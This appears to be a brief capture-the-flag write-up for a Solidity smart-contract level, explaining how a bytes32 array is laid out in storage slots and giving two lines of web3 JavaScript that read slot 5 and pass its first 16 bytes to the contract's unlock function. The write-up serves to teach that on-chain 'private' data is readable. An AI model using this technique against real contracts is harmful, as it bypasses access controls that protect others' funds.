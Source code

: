### Analysis
Array data always start a new slot, so data starts from slot 3. Since it is bytes32 array each value takes 32 bytes. Hence value at index 0 is stored in slot 3, index 1 is stored in slot 4 and index 2 value goes into slot 5

### The Exploit
Run the code in Developer Tools:
~~~
key = (await web3.eth.getStorageAt(instance, 5)).slice(0, 32 + 2)
await contract.unlock(key)
~~~